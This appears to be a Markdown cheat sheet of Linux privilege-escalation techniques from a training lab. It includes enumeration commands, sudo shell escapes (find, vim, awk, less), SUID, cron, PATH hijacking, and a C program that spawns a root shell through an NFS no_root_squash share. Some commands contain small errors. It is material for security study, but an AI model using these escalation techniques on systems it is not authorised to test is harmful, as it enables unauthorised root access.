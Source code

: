 - Identifying the system and environment (e.g., `hostname`, `uname -a`, `/etc/issue`)
- Reviewing running processes and permissions (e.g., `ps`, `id`, `sudo -l`)
- Investigating users, files, and history (e.g., `ls -la`, `/etc/passwd`, `history`)
- Exploring the network setup and connections (e.g., `ifconfig`, `netstat`, `ip route`)
- Locating tools, binaries, and sensitive files (e.g., `find`, `env`)

| **Command**                  | **Description**                                                                                              |     |
| ---------------------------- | ------------------------------------------------------------------------------------------------------------ | --- |
| `hostname`                   | Displays system hostname; can hint at machine's role (e.g., SQL-PROD-01).                                    |     |
| `uname -a`                   | Shows detailed system and kernel information.                                                                |     |
| `/proc/version`              | Provides kernel version and compiler info (via procfs). (`cat /proc/version`)                                |     |
| `/etc/issue`                 | Displays OS version (can be customized).(`cat /etc/issue`)                                                   |     |
| `ps -A`, `ps aux`, `ps axjf` | Lists running processes, users, and process trees.                                                           |     |
| `env`                        | Shows environment variables like `PATH` which may include useful binaries.                                   |     |
| `sudo -l`                    | Lists commands the user can run with elevated privileges via `sudo`.                                         |     |
| `ls -la`                     | Lists files in a directory, showing hidden and permission details.                                           |     |
| `id`                         | Displays user ID, group ID, and group memberships.                                                           |     |
| `/etc/passwd`                | Lists system users; useful for enumeration and brute-force targeting. (`cat /etc/passwd \| cut -d "." -f 1`) |     |
| `history`                    | Shows previously executed commands; may expose credentials.                                                  |     |
| `ifconfig`                   | Displays network interfaces and IP addresses.                                                                |     |
| `ip route`                   | Reveals routing table and potential reachable networks.                                                      |     |
| `netstat -a/n/l/tp/s/i`      | Shows open ports, connections, network statistics, and interface data.                                       |     |
| `find`                       | Searches files by name, size, permissions, timestamps, or ownership.                                         |     |
| `find / -perm -u=s`          | Locates files with the SUID bit set (potential privilege escalation).                                        |     |
| `find / -writable -type d`   | Finds world-writable directories.                                                                            |     |
| `find / -name python*`       | Finds installed development tools or interpreters.                

# Kernel Exploit
1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system. Ex: [exploit-db](https://www.exploit-db.com/)
3. Run the exploit 

# Sudo 
In order to exploiting sudo users, first you need to find which commands current user is allowed, using the **_sudo -l_** command
```sh
#Example
User andrea may run the following commands on viserion:
 (root) NOPASSWD: /usr/bin/find
 (root) NOPASSWD: /usr/bin/vim
 (root) NOPASSWD: /usr/bin/awk
```

```sh
andrea@viserion:~$ sudo find /etc/passwd -exec /bin/sh \;
# whoami
root
```

or the **-c** paramether of **vim**:

```sh
andrea@viserion:~$ sudo vim -c '!sh'
# whoami
root
```

```sh
Also **awk** allows the invocation of a shell:

andrea@viserion:~$ sudo awk 'BEGIN {system("/bin/sh")}'
# whoami
root
```

and **less**, **more** and **man** allows command execution:

 ## MISCELLANEOUS COMMANDS

```sh
-<flag> Toggle a command line option [see OPTIONS below].
 --<name> Toggle a command line option, by name.
 _<flag> Display the setting of a command line option.
 __<name> Display the setting of an option, by name.
 +cmd Execute the less cmd each time a new file is examined.
 **!command Execute the shell command with $SHELL.**
 |Xcommand Pipe file between current pos & mark X to shell command.
 v Edit the current file with $VISUAL or $EDITOR.
 V Print version number of "less".
```
So, simply call:

```sh
sudo less /etc/hosts
# or
sudo more /etc/hosts
# or
sudo man ls
```

Then press _**!sh**_ and hit enter.

# SUID
`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
Search info on [GTFOBins](https://gtfobins.github.io)
# Capabilities
1. `getcap -r / 2>/dev/null`
2. [GTFOBins](https://gtfobins.github.io)
# Cron 
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.  
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.
# Path 
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
1. Searching writable folders
2. Export that folder to PATH
Ex:
	The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the “`export PATH=/tmp:$PATH`” command accomplishes this.
3. Place a malicious binary in writable folder:
```sh
cp /bin/bash /tmp/thm
chmod +x /tmp/thm
```
4. Run
```sh
./path
```
# NFS
NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users. The critical element for this privilege escalation vector is the **“no_root_squash”** option.
If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

1. Check for NFS shares from your machine:
```sh
showmount -e IP
```
2. Mount the NFS share to your local directory:
```sh
mount -t nfs <target-ip>:/shared /mnt/nfs
```
3. Create a simple C program to spawn a root shell (`nfs.c`):
```sh
#include <stdio.h>
#include <stdlib.h>
int main() {
    setuid(0); setgid(0);
    system("/bin/bash");
    return 0;
}

```
4. Compile the binary and set the SUID bit:
```sh
gcc nfs.c -o nfs
chmod +s nfs
```
5. Ensure the file is in the NFS-mounted folder.
The binary will now appear on the target system (due to shared mount).
6. Execute the SUID binary on the target to gain root
`./nfs`
# Capstone Challenge
1. Enumeration
```sh
hostname   
sudo -l   
cat /etc/passwd   
uname-a
```
